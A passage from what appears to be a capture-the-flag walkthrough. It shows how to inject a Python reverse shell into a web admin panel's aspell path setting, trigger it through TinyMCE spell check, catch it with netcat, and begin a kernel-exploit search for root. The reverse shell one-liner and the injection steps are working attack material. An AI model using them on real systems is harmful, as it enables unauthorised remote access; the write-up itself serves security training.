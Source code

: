 We have successfully logged in. The next way to follow is to inject a code that can open a remote connection to us anywhere in the admin panel.

Here is where I found the place to inject code.

![](https://miro.medium.com/v2/resize:fit:1618/0*_R97O_bdm-8PGbp3.png)

I came to the “System paths” directory under the server directory and wrote the following python code where it says **“Path to aspell”.**

``` python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<IP ADRESINIZ>",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
If I trigger this code, it will give me a reverse shell. To do this, I have to adjust the settings to make this code work.

![](https://miro.medium.com/v2/resize:fit:1616/0*lMq_GBBQV1KUU1gG.png)

If you set the “spell engine” part to PSpellShell in the TinyMCE editor, you can trigger the python code you just used. To do this, after making these settings, write any post and perform a spell check.

Before doing this, I had set the port number “1234” in python code. Let’s start listening to this port with “netcat” tool. If we trigger the code, we will see that we get a “reverse shell”.

I open a new terminal page and run the netcat tool.

![](https://miro.medium.com/v2/resize:fit:875/0*1gQQnIUBascjvewq.jpeg)

Now let’s share a new post with the admin account on the web.

![](https://miro.medium.com/v2/resize:fit:1601/0*yW1Luc-98czzZyhO.png)

We come to the place where we will enter the new entry with the black arrow. If we click on the place at the end of the red arrow after filling in the places that he wants us to fill, the spell check process will be started, so our python code will be triggered. Let’s take a look at the netcat tool

# 6) Root Olma

![](https://miro.medium.com/v2/resize:fit:1743/0*A33QQuxVvG0RW7PI.jpeg)

As you can see, the connection was established immediately. I immediately ran the interactive shell import command with python code. The next thing to do is to learn the operating system and scan for vulnerabilities.  
I found the operating system as UBUNTU 3.13. Let’s go on a vulnerability search.

![](https://miro.medium.com/v2/resize:fit:1799/0*QeZ4tzyko4snc9Wh.jpeg)

As you can see I immediately found the results with the “searchsploit” tool. The 37292.c file will probably benefit us.

I downloaded this file immediately. To download the file, I went to “exploitdb” and typed it as 37292.c.
